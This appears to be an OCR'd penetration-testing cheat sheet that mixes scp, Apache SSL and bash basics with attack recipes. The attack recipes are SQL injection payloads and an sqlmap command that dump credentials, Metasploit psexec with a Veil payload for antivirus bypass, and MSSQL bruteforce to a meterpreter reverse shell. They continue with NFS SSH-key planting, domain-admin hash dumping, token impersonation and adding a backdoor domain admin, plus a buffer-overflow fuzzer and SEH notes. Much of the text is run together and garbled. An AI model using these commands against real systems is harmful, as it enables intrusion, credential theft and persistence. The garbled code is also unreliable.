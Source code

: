 # **CheatSheet (Short)** #

### **SCP** ###

**Secure Copy (scp) Cheatsheet**
- Copy remote file to local host
- Copy local file to remote host
- Copy local directory to remote directory
- Copy a file from one remote host to another
- Improve scp performance (use blowfish)

### **SQL Injection** ###

**Union Based SQL Injection**
```
​' or 1=1#​1' 
ORDER BY 10#​1' UNION SELECT version(),2#​1' 
UNION SELECT version(),database()#​1' 
UNION SELECT version(),user()#​1' 
UNION ALL SELECT table_name,2 from information_schema.tables#​1' 
UNION ALL SELECT column_name,2 from information_schema.columns where table_name = "users"#​1' UNION ALL SELECT concat(user,char(58),password),2 from users
```
```
​​sqlmap --url="" -p username --user-agent=SQLMAP --threads=10 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### **AV bypass** ###

**1.** Generate executable using Veil.  
**2.** In msfconsole setup psexec with relevant payload
```
(windows/meterpreter/reverse_tcp)​msf > use exploit/windows/smb/psexecmsf exploit(psexec) > set RHOST ipRHOST => ipmsf exploit(psexec) > set SMBUser userSMBUser => usermsf exploit(psexec) > set SMBPass passSMBPass => passmsf exploit(psexec) > set EXE::Custom /root/Desktop/Misc/Veil-master/payload.exeEXE::Custom => /root/Desktop/Misc/Veil-master/payload.exemsf exploit(psexec) > exploit
```

### **Apache SSL** ###

- Enabling Self signed certificates on local website1. 
- Install OpenSSL​sudo apt-get install openssl​2. 
- Run the following command to generate the self signed SSL certificates:
```
​sudo openssl req -x509 -nodes -days 1095 -newkey rsa:2048 -out /etc/ssl/certs/server.crt -keyout /etc/ssl/private/server.key​3. 
```
- Enable SSL for Apache​sudo a2enmod ssl​4. 
- Put the default-ssl site available creating a symbolic link:
```
​sudo ln -s /etc/apache2/sites-available/default-ssl.conf /etc/apache2/sites-enabled/000-default-ssl.conf​5
```
- Edit the file default-ssl.conf
```
​sudo nano /etc/apache2/sites-enabled/000-default-ssl.conf​Change
``` 
the following lines to point to the `certs:​SSLCertificateFile    /etc/ssl/certs/server.crtSSLCertificateKeyFile /etc/ssl/private/server.key​6`. 
- Restart Apache
```
​sudo /etc/init.d/apache2 restart
```
#### **More Information**  ####

- [https://hallard.me/enable-ssl-for-apache-server-in-5-minutes/](https://hallard.me/enable-ssl-for-apache-server-in-5-minutes/)
- [https://www.sslshopper.com/article-how-to-create-and-install-an-apache-self-signed-certificate.html](https://www.sslshopper.com/article-how-to-create-and-install-an-apache-self-signed-certificate.html)
- [http://www.akadia.com/services/ssh_test_certificate.html](http://www.akadia.com/services/ssh_test_certificate.html)
- [https://www.sslshopper.com/apache-server-ssl-installation-instructions.html](https://www.sslshopper.com/apache-server-ssl-installation-instructions.html)

### **Attacking MS-SQL** ###

```
[+] Attacking MSSQL with Metasploit​[>] Enumerate MSSQL Servers on the network:​msf > use auxiliary/scanner/mssql/mssql_pingnmap -sU --script=ms-sql-info ip ipDiscover more servers using "Browse for More" via Microsoft SQL Server Management Studio.​[>] Bruteforce MSSQL Database:​msf auxiliary(mssql_login) > use auxiliary/scanner/mssql/mssql_login​[>] Enumerate MSSQL Database:​msf > use auxiliary/admin/mssql/mssql_enum​[>] Gain shell using gathered credentials​msf > use exploit/windows/mssql/mssql_payloadmsf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp​
```

Bash Scripting

​- Simple Bash Scripting Cheatsheet
​- nano Shortcuts `ctrl v	
​- Next page.ctrl y			
​- Previous page.ctrl w			
​- Where is (find).ctrl k			
​- Cut that line of test.ctrl x     		
​- Exit editor.​
​- Create a text file:touch file		
​- Creates an empty file.ifconfig > tmp	
​- pipe the output of a commandnano file​ 
​- Create a file and append text to it:ifconfig > tmp     
​- echo >> tmpping google.com -c3 >> tmp​
​- How to view a file: ```cat file```
​- Show entire contents of file. ```more file```
​- Show one page at a time.  
​- Space bar for next page and (q) to exit.
​- head file		
​- Show the first 10 lines.head -15 file	
​- Show the first 15 lines.tail file		
​- Show the last 10 lines.tail -15 file	
​- Show the last 15 lines.tail -f file	Useful when viewing the output of a log file.​
```
pipecat tmp | grep Bcast	Feeds the output of one process to the input of another process.
```
```
​Processesps aux			Show all running process for all users.
```
```
kill -9 PID		Nicely kill a PID.
```
Word Countwc -l tmp2		Count the number of lines in a file

​- cut-d  delimiter-f  fields
​- sortSort by unique		sort -u filesort IP addresses correct		sort -t . -k 1,1n -k 2,2n -k 3,3n -k 4,4ncat tmp2 | cut -d '(' -f2 | cut -d ')' -f1 | sort -u		Isolate the IP address
​- awkawk '{print $1}' file 		Show the 1st column.
```
awk '{print $1,$5}' file 	Show the 1st and 5th columns.
```
```
​grepgrep -v		Remove a single string.
```
```
grep -v 'red' file
```
​- egrep -vRemove multiple strings	egrep -v '(red|white|blue)' file
​- sedsed 's/FOO/BAR/g' file 		Replace FOO with BAR.sed 's/FOO//g' file 		Replace FOO with nothing.sed '/^FOO/d' file 			Remove lines that start with FOO.
```
colour31=red 32=green 33=yellow 34=blue 35=magenta 36=cyan echo -e "\e[1;34m This is a blue text.\e[0m"​​​ 
```

​**Bash Scripts**
​```Simple bash script: #!/bin/bashclearechoechoprint "Hello world." ```
​- Make a file executable.chmod +x filechmod 755 file
​- Variablesname=Bobecho $nameuser=$(whoami)echo $userecho 'Hello' $name. 'You are running as' $user.​#!/bin/bashclearecho "Hello World"name=Bobip=`ifconfig | grep "Bcast:" | cut -d":" -f2 | cut -d" " -f1`echo "Hello" $name "Your IP address is:" $ip
​- User Inputread -p "Domain: " domain​#!/bin/bashecho "Please input your domain:"read -p "Domain:" domainping -c 5 $domain
​- Check For No User Inputif [ -z $domain ]; then	echo	echo "#########################"	echo	echo "Invalid choice."	echo	exitfi
​- For loops#!/bin/bash​for host in $(cat hosts.txt)do	
command $hostdone
​- One Liners​Port Scan: for port in $(cat Ports.txt); do nc -nzv ip $port & sleep 0.5; done

CTF CS

```
CTF Notes---------​# Enumerate Users via Finger​# Show nfs shares availableshowmount -e ip​# User nfspysh to mount share and create .ssh directorynfspysh -o server=ip:/home/usermkdir .sshcd .ssh​# Generate ssh key pairssh-keygencp id_rsa.pub /tmp/authorized_keys​# Transfer attacker public key to hostput /tmp/authorized_keysexit​# Login to SSH server with no password​​
```

Cookie Stealing

```
[+] Cookie Stealing:​[-] Start Web Service​python -m SimpleHTTPServer 80​[-] Use one of the following XSS payloads:​
```

Domain Admin Exploitation

```
[+] After compromising a Windows machine:​[>] List the domain administrators:From Shell - net group "Domain Admins" /domain​[>] Dump the hashes (Metasploit)msf > run post/windows/gather/smart_hashdump GETSYSTEM=FALSE​[>] Find the admins (Metasploit)spool /tmp/enumdomainusers.txtmsf > use auxiliary/scanner/smb/smb_enumusers_domainmsf > set smbuser Administratormsf > set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0msf > set rhosts ip/24msf > set threads 8msf > run​msf> spool off​[>] Compromise Admin's boxmeterpreter > load incognitometerpreter > list_tokens -umeterpreter > impersonate_token MYDOM\\adaministratormeterpreter > getuidmeterpreter > shell​C:\> whoamimydom\adaministratorC:\> net user hacker /add /domainC:\> net group "Domain Admins" hacker /add /domain
```

Exploit-Dev

```
Exploit Development Cheatsheet------------------------------​[+] Fuzzing:​import socket​buffer = ["A"]counter = 50​while len(buffer) <= 1000:    buffer.append("A" * counter)    counter = counter + 50​for buffstring in buffer:    print "Fuzzing:" + str(len(buffstring))    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    sock.connect( ("192.168.0.20", 5555) )    sock.send(buffstring)    sock.close()​[+] Bad Character Testing:​"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e""\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d""\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c""\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b""\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a""\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59""\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68""\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77""\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86""\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95""\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4""\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3""\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2""\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1""\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0""\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef""\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe""\xff"​​[+] Structured Exception Handler (SEH) Exploitation notes​- Crash the application- Check SEH overwirte (view-seh chain)- Find offset (!mona pattern_create )- Find certain SEH references to the cyclic pattern (!mona findmsp)- Verify offset to NSEH (Next Exception)- Find POP/POP/RET address with mona (!mona seh -cpb )- Add short jump into payload to jump ofver SEH ("\xeb\x06" + 2 bytes of padding)- Add shellcode to the payload- Ensure existing padding to make sure the crash still happens.
```

​
